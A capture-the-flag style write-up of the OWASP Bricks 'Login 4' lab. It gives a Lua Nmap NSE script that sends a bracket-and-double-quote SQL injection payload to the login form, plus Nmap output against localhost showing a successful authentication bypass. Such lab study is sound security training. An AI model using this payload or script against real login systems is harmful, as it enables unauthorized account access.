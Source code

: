 ```yaml
---
date: '2024-12-03T16:23:38+08:00'
title: 'Bricks Login 4'
tags:
    - OWASP-Bricks
    - NSE
---
```


## Challenge Information

- [OWASP Bricks](https://sechow.com/bricks/)
- Docker version: [here](https://hub.docker.com/r/gjuniioor/owasp-bricks)


> This is a series where I will write my own Nmap NSE script to solve that challenge. This is actually a task given by [masta ghimau](https://www.youtube.com/@mastaghimau) during [MCC 2023](https://cybercamp.my/mcc2023-the-journey-begins/).

## Challenge Solution

Login level 4 is just a SQL injection with bracket and uses double quote. Here's an example: `SQL Query: SELECT * FROM users WHERE name=("a") and password=("a")`. We could just modify previous NSE script by changing the query.

```lua
local http = require "http"
local shortport = require "shortport"

portrule = shortport.http

action = function(host,port)
  local resp,final,query
  r={}
  r['username']="a\") OR 1=1-- a"
  r['passwd']="test"
  r['submit']="Submit"
  resp = http.post(host,port,"/login-4/index.php",nil,nil,r)


  final = string.match(resp.body, '<p>.*alert%-box.->(.-)<a.*</p>')
  query = string.match(resp.body, ".*SQL Query(.*)<a.*</div>")

  return {payload = r ,SQLQuery = query , result = final}
end
```

This code is built based on `http-title.nse`.

```bash
nmap -p 80 --script=chall4.nse 127.0.0.1
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-28 20:48 +08
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).

PORT   STATE SERVICE
80/tcp open  http
| chall1:
|   SQLQuery: : SELECT * FROM users WHERE name=("a") OR 1=1-- a") and password=("test")
|   payload:
|     passwd: test
|     username: a") OR 1=1-- a
|     submit: Submit
|_  result: Succesfully logged in.

Nmap done: 1 IP address (1 host up) scanned in 0.15 seconds
```

## Things I learned from the challenge

- Writing custom NSE script

